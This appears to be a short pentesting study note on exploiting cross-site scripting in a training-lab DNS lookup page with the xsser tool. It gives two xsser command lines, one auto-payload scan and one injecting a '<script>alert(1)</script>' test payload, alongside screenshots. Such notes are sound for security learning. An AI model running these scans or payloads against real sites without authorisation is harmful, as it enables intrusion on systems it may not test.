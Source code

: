 #### Exploiting XSS Via xsser

* Find the vulnerable field and intercept the request.

![Screenshot at 2022-12-25 08-30-58](https://user-images.githubusercontent.com/85208639/209455642-b15aeea4-35b4-47f8-bef9-77c990ad576d.png)


* Copy the URL and paramater to xsser.

```
usage:

xsser -u 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'

Here -p flag is set to specify POST request
     --auto Use all Payloads
```

##### Using Custom Payload
```
xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "<script>alert(1)</script>"

```
![Screenshot at 2022-12-25 08-43-19](https://user-images.githubusercontent.com/85208639/209455790-fcbddea9-aa96-4758-9554-01378b96aa26.png)
